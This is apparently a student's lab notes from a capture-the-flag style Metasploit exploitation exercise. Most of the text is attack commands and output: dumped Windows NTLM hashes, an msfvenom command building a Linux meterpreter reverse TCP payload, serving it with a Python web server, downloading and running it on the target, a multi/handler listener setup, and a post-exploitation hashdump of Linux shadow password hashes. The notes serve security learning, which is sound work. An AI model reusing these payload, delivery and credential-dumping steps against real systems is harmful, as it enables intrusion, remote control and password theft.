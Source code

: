 # Metasploit: Exploitation

I was pretty confused with the NTLM hash for a while. I couldn't figure how to get it from within Windows from the DOS prompt. I'm sure it's possible. 

We really want a meterpreter shell there not the DOS prompt (command line, sorry). So I tried payload 9 which offers a meterpreter prompt on a Windows platform and luckily got this:

meterpreter > hashdump
Administrator:500:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
pirate:1001:aad3b435b51404eeaad3b435b51404ee:**8ce9a3ebd1647fcc5e04025019f4b875**:::


msfvenom

msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=10.X.X.X LPORT=XXXX -f elf > shell.elf

python3 -m http.server 9000

wget 10.X.X.X:9000/shell.elf
chmod +x shell.elf
./shell.elf (after starting multi/handler)

msfconsole:
search multi/handler
use 6 (this might be different) (use exploit/multi/handler)
set LHOST 10.X.X.X
set LPORT 4444
set payload payload/linux/x86/meterpreter/reverse_tcp
run

first I tried port 7777 but this seems to be already in use on the attackbox?
Rex::BindFailed The address is already in use or unavailable: (0.0.0.0:7777)
So used port 4444

then at meterpreter prompt:
meterpreter > run post/linux/gather/hashdump

Get hashdump! Clear!

[+] murphy:$6$qK0Kt4UO$HuCrlOJGbBJb5Av9SL7rEzbxcz/KZYFkMwUqAE0ZMDpNRmOHhPHeI2JU3m9OBOS7lUKkKMADLxCBcywzIxl7b.:1001:1001::/home/murphy:/bin/sh
[+] claire:$6$Sy0NNIXw$SJ27WltHI89hwM5UxqVGiXidj94QFRm2Ynp9p9kxgVbjrmtMez9EqXoDWtcQd8rf0tjc77hBFbWxjGmQCTbep0:1002:1002::/home/claire:/bin/sh
[+] Unshadowed Password File: /root/.msf4/loot/20221208130522_default_10.10.133.201_linux.hashes_025374.txt